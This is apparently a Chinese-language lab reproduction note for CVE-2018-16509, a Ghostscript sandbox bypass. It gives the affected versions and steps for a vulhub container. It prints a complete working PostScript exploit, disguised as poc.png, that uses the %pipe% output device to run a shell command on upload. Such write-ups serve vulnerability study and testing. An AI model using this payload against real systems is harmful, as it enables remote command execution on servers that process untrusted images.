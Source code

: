 # CVE-2018-16509 GhostScript 沙箱绕过（命令执行）漏洞

### 一、漏洞简介

该漏洞源于在处理/invalidaccess异常时，程序没有正确的检测`‘restoration of privilege（权限恢复）’`。攻击者可通过提交特制的PostScript利用该漏洞执行代码。

### 二、漏洞影响

Ghostscript 9.24之前版本

### 三、复现过程

上传poc.png，将执行命令`id > /tmp/success && cat /tmp/success`。此时进入容器docker-compose exec web bash，将可以看到/tmp/success已被创建：

**poc.png**


```bash
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```

![](images/15890285399511.png)


参考链接

https://vulhub.org/#/environments/ghostscript/CVE-2018-16509/